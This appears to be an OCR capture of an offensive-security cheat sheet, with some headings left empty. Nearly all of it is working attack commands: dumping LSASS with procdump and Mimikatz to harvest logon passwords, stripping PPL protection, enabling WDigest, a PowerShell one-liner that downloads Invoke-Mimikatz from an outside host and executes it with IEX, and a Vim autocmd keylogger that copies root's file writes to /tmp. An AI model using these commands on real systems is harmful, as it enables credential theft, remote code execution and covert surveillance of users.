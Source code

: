 Offline dump lsass

```plaintext
procdump.exe lsass.exe

sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

Remotely load Invoke-Mimikatz

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/mimikatz.txt') | IEX
```

Invoke-Mimikatz remove PPL Protection

```powershell
Invoke-Mimikatz -Command "\`"!processprotect /process:lsass.exe /remove\`""
```

Invoke-Mimikatz get passwords from minidump

```powershell
Invoke-Mimikatz -Command "\`"sekurlsa::minidump c:\tools\lsass.dmp\`" sekurlsa::logonpasswords"
```

Invoke-Mimikatz remove ppl & dump passwords

```powershell
Invoke-Mimikatz -Command "privilege::debug" !+ "!processprotect /process:lsass.exe /remove" sekurlsa::logonpasswords
```

Enable wdigest

```plaintext
HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest  -> value "1"
```

VIM

```shell
.vimrc
~/.vim/plugin/<name>.vim
:silent !source ~/.vimrunscript
```

.bashrc

View sudo current user permissions

Open shell

Keylogger

```shell
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

---
